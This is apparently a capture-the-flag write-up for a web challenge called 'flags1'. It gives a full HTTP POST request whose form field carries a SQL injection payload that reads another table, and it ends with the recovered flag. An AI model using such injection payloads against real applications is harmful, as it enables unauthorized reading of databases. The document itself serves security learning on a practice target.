


# flags1
> Come submit your flags for all to see!

## About the Challenge
We were given a website and we need to find the flag there



We can input some random string and then our input will be displayed in the homepage

## How to Solve?
Actually this chall is literally the same with `UTCTF - Confessions` chall. So i tried to use the same payload to solved this chall

```
POST /sendflag HTTP/2
Host: flags.mc.ax
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

flag="); SELECT text FROM confessions; --
```



If you are still confused, you can refer to this [repository](https://github.com/utisss/UTCTF-23/tree/main/guppy/web-confession)

```
cursed{thank_you_for_the_flags}
```